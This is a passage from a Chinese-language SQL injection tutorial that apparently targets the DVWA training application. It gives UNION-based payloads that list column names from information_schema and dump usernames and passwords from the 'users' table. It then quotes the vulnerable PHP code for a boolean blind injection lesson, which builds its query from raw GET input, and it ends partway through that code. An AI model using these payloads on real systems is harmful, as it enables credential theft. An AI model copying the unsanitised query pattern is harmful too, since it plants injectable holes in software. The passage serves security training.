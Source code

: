 获取第二个字段名字 password 

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 2,1)-- 
```

获取第三个字段名字  email

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 3,1)-- 
```

获取第四个字段名字 secret

```mysql
-1' union select 1,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 4,1)-- 
```

...............................

### 通过联合查询表里面的内容

	通过以上操作我们已经获取了当前数据库的库名、表名、字段

那么我们就可以通过下面语句获取表里面的内容了

```mysql
-1' union select 1,(select group_concat(user,0x3a,password) from users limit 1)-- 
```





## boolean布尔型盲注入

### 代码分析

```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Get input
    #id为字符串型 get接收id参数
    $id = $_GET[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
    }
    else {
        // User wasn't found, so the page wasn't!
        header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

        // Feedback for end user
        echo '<pre>User ID is MISSING from the database.</pre>';
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
```